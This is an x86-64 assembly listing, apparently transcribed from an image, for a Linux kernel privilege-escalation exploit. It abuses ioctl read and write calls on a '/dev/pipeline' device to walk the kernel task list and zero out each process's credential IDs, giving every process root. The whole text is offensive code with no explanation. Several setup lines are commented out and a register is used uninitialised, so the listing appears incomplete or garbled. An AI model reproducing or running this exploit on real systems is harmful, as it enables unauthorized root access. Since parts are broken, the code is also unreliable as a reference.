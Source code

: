 ```asm

loop:
        mov            QWORD [rdx], rax
        mov            QWORD [rdx+8], task
        mov            QWORD [rdx+16], 8
        mov            rsi, IOCTL_COPY_TO_USER
      ; mov            rdx, ioctl_arg
        mov            eax, SYS_IOCTL
        syscall

        mov            rax, [task]
        sub            rax, O_NEXT
        cmp            rax, INIT_TASK
        je             finish

        mov            QWORD [rdx], rax
        mov            QWORD [rdx+8], buf
        mov            QWORD [rdx+16], BUF_SIZE
      ; mov            rsi, IOCTL_COPY_TO_USER
      ; mov            rdx, ioctl_arg
        mov            eax, SYS_IOCTL
        syscall

        mov            rax, [buf+CRED_OFS]
      ; mov            [cred_ofs], rax

        mov            QWORD [rdx], rax
        mov            QWORD [rdx+8], cred
        mov            QWORD [rdx+16], CRED_SIZE
      ; mov            rsi, IOCTL_COPY_TO_USER
      ; mov            rdx, ioctl_arg
        mov            eax, SYS_IOCTL
        syscall

        xor            rax, rax
        push           rdi
        lea            rdi, [cred+4]
        mov            rcx, 8
        rep            stosd
        pop            rdi

      ; mov            rax, [cred_ofs]
      ; mov            QWORD [rdx], rax
      ; mov            QWORD [rdx+8], cred
      ; mov            QWORD [rdx+16], 16*8
        mov            rsi, IOCTL_COPY_FROM_USER
      ; mov            rdx, ioctl_arg
        mov            eax, SYS_IOCTL
        syscall

        mov            rax, [task]
        jmp            loop

finish:
        mov            eax, SYS_EXIT
        syscall


sDevPipeline:
        db      "/dev/pipeline", 0

bss:
task           equ     bss
```